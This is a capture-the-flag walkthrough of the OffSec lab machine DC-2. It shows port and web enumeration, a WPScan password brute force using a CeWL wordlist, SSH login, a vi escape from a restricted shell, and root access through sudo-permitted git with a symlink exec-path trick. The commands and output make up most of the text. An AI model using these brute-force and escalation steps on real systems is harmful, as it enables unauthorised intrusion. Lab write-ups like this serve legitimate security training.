

# DC-2

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Play
Difficulty: Easy
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 15
Number of Flags: 2
Lab Description:
In this lab, we will exploit a WordPress CMS through targeted brute-forcing using a custom wordlist generated 
with cewl. After gaining initial access via SSH, we will bypass a restricted shell and escalate privileges by 
exploiting the sudo privilege on the git binary to gain root-level access.
```

Machine link: [https://portal.offsec.com/machine/dc-2-37499/overview/details](https://portal.offsec.com/machine/dc-2-37499/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ export TARGET_IP=192.168.226.194

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-26 15:51 +0200
Nmap scan report for 192.168.226.194
Host is up (0.038s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Did not follow redirect to http://dc-2/
|_http-server-header: Apache/2.4.10 (Debian)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.64 seconds
```

We have two TCP-services running:

- Apache httpd 2.4.10 on port 80
- OpenSSH 6.7p1 Debian 5+deb8u7 on port 7744

We also do an UDP-scan of the top 100 ports.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-26 15:55 +0200
Nmap scan report for 192.168.226.194
Host is up (0.038s latency).
All 100 scanned ports on 192.168.226.194 are in ignored states.
Not shown: 100 closed udp ports (port-unreach)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.32 seconds
```

But no UDP-services were found.

### Check the web site

Browsing manually to `http://192.168.226.194` we get redirected to `http://dc-2/` so we should update our `/etc/hosts` file.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ echo -e "$TARGET_IP\tdc-2" | sudo tee -a /etc/hosts
192.168.226.194 dc-2
```

The homepage is a WordPress site.


On `http://dc-2/index.php/flag/` we find the following hint:

```text
Flag 1:

Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.

More passwords is always better, but sometimes you just can’t win them all.

Log in as one to see the next flag.

If you can’t find it, log in as another.
```

We can also do some basic HTTP-enumeration with nmap.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ nmap -v -p 80 --script http-enum $TARGET_IP
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-26 16:15 +0200
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 16:15
Completed NSE at 16:15, 0.00s elapsed
Initiating Ping Scan at 16:15
Scanning 192.168.226.194 [4 ports]
Completed Ping Scan at 16:15, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:15
Scanning dc-2 (192.168.226.194) [1 port]
Discovered open port 80/tcp on 192.168.226.194
Completed SYN Stealth Scan at 16:15, 0.07s elapsed (1 total ports)
NSE: Script scanning 192.168.226.194.
Initiating NSE at 16:15
Completed NSE at 16:15, 4.34s elapsed
Nmap scan report for dc-2 (192.168.226.194)
Host is up (0.037s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 4.7.10
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|_  /readme.html: Interesting, a readme.

NSE: Script Post-scanning.
Initiating NSE at 16:15
Completed NSE at 16:15, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 4.68 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (72B)
```

Finally for the web enumeration we search for additional files and directories with `gobuster`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ gobuster dir -u http://dc-2 -w /usr/share/wordlists/dirb/common.txt -t 32 -x txt,php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dc-2
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 284]
/.hta.txt             (Status: 403) [Size: 287]
/.hta                 (Status: 403) [Size: 283]
/.hta.php             (Status: 403) [Size: 287]
/.hta.html            (Status: 403) [Size: 288]
/.htaccess.php        (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 288]
/.htaccess.txt        (Status: 403) [Size: 292]
/.htaccess.html       (Status: 403) [Size: 293]
/.htpasswd            (Status: 403) [Size: 288]
/.htpasswd.php        (Status: 403) [Size: 292]
/.htpasswd.txt        (Status: 403) [Size: 292]
/.htpasswd.html       (Status: 403) [Size: 293]
/.php                 (Status: 403) [Size: 283]
/index.php            (Status: 301) [Size: 0] [--> http://dc-2/]
/index.php            (Status: 301) [Size: 0] [--> http://dc-2/]
/license.txt          (Status: 200) [Size: 19935]
/readme.html          (Status: 200) [Size: 7413]
/server-status        (Status: 403) [Size: 292]
/wp-admin             (Status: 301) [Size: 299] [--> http://dc-2/wp-admin/]
/wp-content           (Status: 301) [Size: 301] [--> http://dc-2/wp-content/]
/wp-includes          (Status: 301) [Size: 302] [--> http://dc-2/wp-includes/]
/wp-settings.php      (Status: 500) [Size: 0]
/wp-config.php        (Status: 200) [Size: 0]
/wp-cron.php          (Status: 200) [Size: 0]
/wp-blog-header.php   (Status: 200) [Size: 0]
/wp-links-opml.php    (Status: 200) [Size: 215]
/wp-load.php          (Status: 200) [Size: 0]
/wp-login.php         (Status: 200) [Size: 2165]
/wp-mail.php          (Status: 403) [Size: 3444]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://dc-2/wp-login.php?action=register]
/xmlrpc.php           (Status: 405) [Size: 42]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
===============================================================
```

### Create a custom wordlist

Then we create a custom wordlist with CeWL as hinted.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ cewl -m 5 -w cewl_custom_wordlist.txt http://dc-2      
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ wc -l cewl_custom_wordlist.txt                                                                              
165 cewl_custom_wordlist.txt
```

### Scan and brute-force WordPress

Next, we can scan and brute-force WordPress.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ wpscan --update                                                         
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ wpscan --url http://dc-2 -P cewl_custom_wordlist.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.226.194]
[+] Started: Sat Sep 26 16:14:36 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2026-05-20T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 4.1
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <============================================================================================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=============================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - tom / parturient                                                                                                                                                                               
[SUCCESS] - jerry / adipiscing                                                                                                                                                                             
Trying admin / Lorem Time: 00:00:30 <=============================================================================                                                      > (487 / 816) 59.68%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: tom, Password: parturient
 | Username: jerry, Password: adipiscing

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Sep 26 16:15:16 2026
[+] Requests Done: 685
[+] Cached Requests: 6
[+] Data Sent: 290.528 KB
[+] Data Received: 832.627 KB
[+] Memory used: 284.43 MB
[+] Elapsed time: 00:00:39
```

We found two credentials:

- Username: `tom`
- Password: `parturient`

and

- Username: `jerry`
- Password: `adipiscing`

### Verify the credentials

Let's verify the credentials by logging in at `http://dc-2/wp-admin`.



We can login with both users and for the `jerry` user we find a `Flag 2` page with the following content.

```text
Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```

We also verify if we can login via SSH.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ vi users.txt    

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ cat users.txt                                    
tom
jerry

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ vi passwords.txt        

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ cat passwords.txt 
parturient
adipiscing

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ nxc ssh $TARGET_IP -u users.txt -p passwords.txt --no-bruteforce --port 7744
SSH         192.168.226.194 7744   192.168.226.194  [*] SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u7
SSH         192.168.226.194 7744   192.168.226.194  [+] tom:parturient  Network Devices
```

It looks like `tom` has SSH access.

### Get a shell as tom

Next, we connect with SSH as tom.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/DC-2]
└─$ ssh -p 7744 tom@$TARGET_IP                      
The authenticity of host '[192.168.226.194]:7744 ([192.168.226.194]:7744)' can't be established.
ED25519 key fingerprint is SHA256:JEugxeXYqsY0dfaV/hdSQN31Pp0vLi5iGFvQb8cB1YA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.226.194]:7744' (ED25519) to the list of known hosts.
tom@192.168.226.194's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ id
-rbash: id: command not found
```

We get access but seem to be in a [restricted shell](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html).

Let's see what we have.

```bash
tom@DC-2:~$ echo $PATH
/home/tom/usr/bin
tom@DC-2:~$ export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/home/tom/usr/bin
-rbash: PATH: readonly variable
tom@DC-2:~$ ls -l /home/tom/usr/bin
total 0
lrwxrwxrwx 1 tom tom 13 Mar 21  2019 less -> /usr/bin/less
lrwxrwxrwx 1 tom tom  7 Mar 21  2019 ls -> /bin/ls
lrwxrwxrwx 1 tom tom 12 Mar 21  2019 scp -> /usr/bin/scp
lrwxrwxrwx 1 tom tom 11 Mar 21  2019 vi -> /usr/bin/vi
tom@DC-2:~$ 
```

We have [vi](https://gtfobins.org/gtfobins/vi/) which we could use to [escape the rbash](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/).

First we start `vi` and then press `ESC`, enter `:set shell=/bin/bash` and then enter `:shell`.

```bash
tom@DC-2:~$ vi

tom@DC-2:~$ id
bash: id: command not found
tom@DC-2:~$ export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/home/tom/usr/bin
tom@DC-2:~$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
tom@DC-2:~$ 
```

### Get the user flag

Now we can start looking for the user flag.

```bash
tom@DC-2:~$ ls -la
total 56
drwxr-x--- 3 tom  tom   4096 Sep 26 10:57 .
drwxr-xr-x 4 root root  4096 Mar 21  2019 ..
-rwxr-x--- 1 tom  tom     74 Sep 26 10:47 .bash_history
-rwxr-x--- 1 tom  tom     30 Mar 21  2019 .bash_login
-rwxr-x--- 1 tom  tom     30 Mar 21  2019 .bash_logout
-rwxr-x--- 1 tom  tom     30 Mar 21  2019 .bash_profile
-rwxr-x--- 1 tom  tom     30 Mar 21  2019 .bashrc
-rwxr-x--- 1 tom  tom     95 Mar 21  2019 flag3.txt
-rw-r--r-- 1 root root    33 Sep 26 09:49 local.txt
-rwxr-x--- 1 tom  tom     30 Mar 21  2019 .profile
drwxr-x--- 3 tom  tom   4096 Mar 21  2019 usr
-rw------- 1 tom  tom  12288 Sep 26 10:57 .whatever.txt.swp
tom@DC-2:~$ cat local.txt 
2<REDACTED>b
tom@DC-2:~$ 
```

Nice, so far so good.

### Enumeration for privesc

We now enumerate the system for privilege escalation opportunities.

Checking for SUID/GUID-binaries, we find the following

```bash
tom@DC-2:~$ find / -type f -perm /6000 -ls 2>/dev/null
  1749   28 -rwxr-sr-x   1 root     tty         26240 Mar 29  2015 /usr/bin/wall
  5918   12 -rwxr-sr-x   1 root     tty          9680 Oct 17  2014 /usr/bin/bsd-write
  2501   60 -rwxr-sr-x   1 root     shadow      61232 May 17  2017 /usr/bin/chage
  2505   80 -rwsr-xr-x   1 root     root        78072 May 17  2017 /usr/bin/gpasswd
  2030   40 -rwsr-xr-x   1 root     root        38740 May 17  2017 /usr/bin/newgrp
 18811  416 -rwxr-sr-x   1 root     ssh        423288 Sep 12  2018 /usr/bin/ssh-agent
 11322  176 -rwsr-xr-x   1 root     root       176400 Sep  8  2017 /usr/bin/sudo
  2502   52 -rwsr-xr-x   1 root     root        52344 May 17  2017 /usr/bin/chfn
  2504   24 -rwxr-sr-x   1 root     shadow      21964 May 17  2017 /usr/bin/expiry
 18843   20 -rwxr-sr-x   1 root     mail        17880 Nov 18  2017 /usr/bin/lockfile
  2503   44 -rwsr-xr-x   1 root     root        43576 May 17  2017 /usr/bin/chsh
 18665   12 -rwxr-sr-x   1 root     mail         9772 Aug  2  2018 /usr/bin/mutt_dotlock
  9760   16 -rwxr-sr-x   1 root     mail        13892 Jun  2  2013 /usr/bin/dotlockfile
  2506   52 -rwsr-xr-x   1 root     root        53112 May 17  2017 /usr/bin/passwd
 18494   32 -rwxr-sr-x   1 root     mlocate     32116 Jun 13  2013 /usr/bin/mlocate
  6154   40 -rwxr-sr-x   1 root     crontab     38844 Jun  7  2015 /usr/bin/crontab
 18844   96 -rwsr-sr-x   1 root     mail        96192 Nov 18  2017 /usr/bin/procmail
 17841   52 -rwsr-sr-x   1 daemon   daemon      50644 Sep 30  2014 /usr/bin/at
 18805  552 -rwsr-xr-x   1 root     root       562536 Sep 12  2018 /usr/lib/openssh/ssh-keysign
 18024  356 -rwsr-xr--   1 root     messagebus   362672 Nov 21  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  3841   12 -rwsr-xr-x   1 root     root         9468 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
 17926 1060 -rwsr-xr-x   1 root     root      1085300 Feb 10  2018 /usr/sbin/exim4
  3588   28 -rwsr-xr-x   1 root     root        26344 Mar 29  2015 /bin/umount
  3587   36 -rwsr-xr-x   1 root     root        34684 Mar 29  2015 /bin/mount
  2023   40 -rwsr-xr-x   1 root     root        38868 May 17  2017 /bin/su
  2866   36 -rwxr-sr-x   1 root     shadow      34424 May 27  2017 /sbin/unix_chkpwd
tom@DC-2:~$ 
```

Nothing that stands out.

Checking back at the files in our home directory, we forgot the hint file.

```bash
tom@DC-2:~$ cat flag3.txt 
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ 
```

Our previous found password (`adipiscing`) worked!

### Enumeration as jerry

Next, we continue our enumeration as jerry.

```bash
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ ls -la
ls: cannot open directory .: Permission denied
jerry@DC-2:/home/tom$ cd ../jerry
jerry@DC-2:~$ ls -la
total 28
drwxr-xr-x 2 jerry jerry 4096 Mar 21  2019 .
drwxr-xr-x 4 root  root  4096 Mar 21  2019 ..
-rw------- 1 jerry jerry  109 Mar 21  2019 .bash_history
-rw-r--r-- 1 jerry jerry  220 Mar 21  2019 .bash_logout
-rw-r--r-- 1 jerry jerry 3515 Mar 21  2019 .bashrc
-rw-r--r-- 1 jerry jerry  223 Mar 21  2019 flag4.txt
-rw-r--r-- 1 jerry jerry  675 Mar 21  2019 .profile
jerry@DC-2:~$ cat flag4.txt 
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!

jerry@DC-2:~$ 
```

What can we do with `sudo`?

```bash
jerry@DC-2:~$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
jerry@DC-2:~$ 
```

As we can run `git` as `root` without a password.

### Get a shell as root

As usual, [GTFOBins](https://gtfobins.org/gtfobins/git/) gives as an idea on how to proceed.

```bash
jerry@DC-2:~$ sudo PAGER='/bin/sh -c "exec sh 0<&1"' /usr/bin/git -p help
sudo: sorry, you are not allowed to set the following environment variables: PAGER
jerry@DC-2:~$ ln -s /bin/sh git-x
jerry@DC-2:~$ sudo /usr/bin/git --exec-path=. x
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

### Get the root flag

Finally, we get the root flag.

```bash
# ls /root
final-flag.txt  proof.txt
# cat /root/final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.

# cat /root/proof.txt
b<REDACTED>3
# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [CeWL - GitHub](https://github.com/digininja/CeWL)
- [cewl - Kali Tools](https://www.kali.org/tools/cewl/)
- [echo - Linux manual page](https://man7.org/linux/man-pages/man1/echo.1.html)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [git - GTFOBins](https://gtfobins.org/gtfobins/git/)
- [git - Linux manual page](https://man7.org/linux/man-pages/man1/git.1.html)
- [Git - Wikipedia](https://en.wikipedia.org/wiki/Git)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [ln - Linux manual page](https://man7.org/linux/man-pages/man1/ln.1.html)
- [NetExec - GitHub](https://github.com/Pennyw0rth/NetExec)
- [NetExec - Kali Tools](https://www.kali.org/tools/netexec/)
- [NetExec - Wiki](https://www.netexec.wiki)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [PATH (variable) - Wikipedia](https://en.wikipedia.org/wiki/PATH_(variable))
- [rbash restricted shell escape](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [su - Linux manual page](https://man7.org/linux/man-pages/man1/su.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tee - Linux manual page](https://man7.org/linux/man-pages/man1/tee.1.html)
- [The Restricted Shell](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html)
- [vi - GTFOBins](https://gtfobins.org/gtfobins/vi/)
- [vi - Linux manual page](https://man7.org/linux/man-pages/man1/vi.1p.html)
- [WordPress - Wikipedia](https://en.wikipedia.org/wiki/WordPress)
- [WPScan - Documentation](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation)
- [WPScan - GitHub](https://github.com/wpscanteam/wpscan)
- [WPScan - Homepage](https://wpscan.com/)
